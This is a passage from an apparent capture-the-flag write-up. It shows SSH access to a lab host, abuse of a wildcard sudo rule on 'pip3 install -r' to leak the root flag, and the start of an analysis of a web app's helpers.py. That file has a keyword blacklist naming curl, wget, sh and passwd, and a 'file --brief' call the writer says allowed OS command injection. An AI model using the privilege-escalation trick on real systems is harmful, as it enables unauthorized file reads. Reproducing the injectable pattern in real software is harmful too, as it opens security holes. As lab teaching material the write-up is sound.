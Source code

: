 - ssh to the machine
```bash
❯ ssh user@10.10.56.213 -i id_ed25519
```

Normally after ssh into the server, Im going to list out the allowed commands for invoking user (using sudo) on current host using `sudo -l`.
```bash
user@wgym2022:~$ sudo -l
Matching Defaults entries for user on wgym2022:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on wgym2022:
    (ALL) NOPASSWD: /usr/bin/pip3 install http\://git.wgmyinternal.com.my/repositories/*
```

We can run pip3 install with specific repository and any options because of the wildcare (*) based on this line `/usr/bin/pip3 install http\://git.wgmyinternal.com.my/repositories/*`. By looking at `pip3 install` help options, we can install from given file by using `-r` or `--requirements` options. For example, when we try to install python module using root.txt, it will throw an error because the module on the file is not available, and pip will display the content of the file.
```bash
user@wgym2022:~/.ssh$ sudo /usr/bin/pip3 install http://git.wgmyinternal.com.my/repositories/* -r /root/root.txt
ERROR: Invalid requirement: 'wgmy{c06a9ec6a4aced3c13c11bdd0a54cc70}' (from line 1 of /root/root.txt)
```

---

## Technical explaination on Account Takeover

After I got shell, I've downloaded the source code for the webapp to further analyze on register and login bug. Among all files, I got interested with `app.py` and `helpers.py`. On `helpers.py`, it performs three checking:
- `def containsBadChar` : Check if our payload contains blacklist keywords
- `def allowed_file` : Check if user supply with allowed file extension like `.png`, `.jpg`, `.jpeg`, `.gif`
- `def checkFileType` : Check file type using system command `file --brief`. (*thats why we got an OS injection*)

```python
   1   │ #!/usr/bin/env python3
   2   │ import re
   3   │ import subprocess
   4   │ from urllib.parse import unquote
   5   │ 
   6   │ def containsBadChar(url):
   7   │     blackLists = [
   8   │         'etc',
   9   │         'passwd',
  10   │         'home',
  11   │         'opt',
  12   │         'var',
  13   │         'tmp',
  14   │         'cat',
  15   │         'tail',
  16   │         'curl',
  17   │         'wget',
  18   │         'sh',
  19   │         'python',
  20   │         'ls',
  21   │         '..',
  22   │     ]
  23   │     for i in blackLists:
```
